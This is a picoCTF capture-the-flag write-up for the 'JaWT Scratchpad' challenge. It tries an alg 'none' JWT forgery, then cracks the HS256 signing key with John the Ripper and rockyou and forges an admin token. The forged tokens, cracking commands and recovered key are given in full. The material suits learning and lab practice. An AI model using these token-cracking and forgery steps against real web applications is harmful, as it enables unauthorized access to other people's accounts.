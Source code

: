 ```yaml
---
title: "JaWT-Scratchpad"
date: "2020-12-26"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/25?category=1&page=2"
---
```

This is a learning-solving question.

Both website and hint tell us to look up JWT. 

After searching `JWT vulnerabilities` in Google, you can find this:

<https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

But after implementing this method, it seems wrong. When you Change the `jwt cookies` to 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

Which stands for the payload: 

```json
{
  "typ": "JWT",
  "alg": "none"
}

{
  "user": "admin"
}

{

}
```

You only get an 500 error. 

Read through this article <https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens> , combining the [hint](https://github.com/magnumripper/JohnTheRipper) they give, we can guess that we should bruteforce the password.

Also, because this scratchpad only use username as identity, we can guess that the `key` that used for encryption is fixed.

We can start solving this question after we know what to do.

First, generate a arbitrary `jwt cookies`. I will use username `john` here.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

Then, use [john-the-ripper](https://github.com/openwall/john) to bruteforce the key. You can use dictionary [rockyou](https://www.google.com/search?q=rockyou+txt) to bruteforce.

```
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > passwd

john --wordlist=./rockyou.txt passwd
```

We can see that the key is `ilovepico`.

We can then change the original payload using our key. You can conveniently do this step here: <https://www.jsonwebtoken.io/> 

After changing the user into `admin`, you can get the result JWT string:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJqdGkiOiI5NTc0NWVkNC04ZmVkLTRhZWQtYmU3Zi1iMDI3MDU0ZjUzM2IiLCJpYXQiOjE2MDkxMTM2OTgsImV4cCI6MTYwOTExNzMwNH0.8Eq1KaMo8cDtH3o79g04qKtx_muepD1zqGss3oiekPs
```

Replacing the original `jwt cookies` in the question to this, we can finally get the flag.